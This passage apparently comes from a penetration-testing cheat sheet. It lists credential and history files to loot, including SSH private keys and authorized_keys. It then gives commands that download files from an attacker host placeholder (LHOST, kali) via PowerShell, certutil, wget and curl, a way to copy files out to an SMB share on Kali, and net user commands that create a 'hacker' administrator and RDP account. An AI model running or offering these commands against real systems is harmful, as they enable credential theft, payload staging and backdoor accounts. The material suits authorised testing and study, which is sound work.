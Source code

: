     ~/.login
    ~/.logout
    ~/.mysql_history
    ~/.nano_history
    ~/.php_history
    ~/.profile
    ~/.ssh/authorized_keys
    #id_rsa, id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, and id_dsa
    ~/.ssh/id_dsa
    ~/.ssh/id_dsa.pub
    ~/.ssh/id_rsa
    ~/.ssh/id_edcsa
    ~/.ssh/id_rsa.pub
    ~/.ssh/identity
    ~/.ssh/identity.pub
    ~/.viminfo
    ~/.wm_style
    ~/.Xdefaults
    ~/.xinitrc
    ~/.Xresources
    ~/.xsession
    ```
    

## File Transfers

- Downloading on Windows

```bash
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
iwr -uri http://lhost/file -Outfile file
certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
copy \\kali\share\file .
```

- Downloading on Linux

```bash
wget http://lhost/file
curl http://<LHOST>/<FILE> > <OUTPUT_FILE>
```

### Windows to Kali

```bash
kali> impacket-smbserver -smb2support <sharename> .
win> copy file \\KaliIP\sharename
```

## Adding Users

### Windows

```powershell
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
```

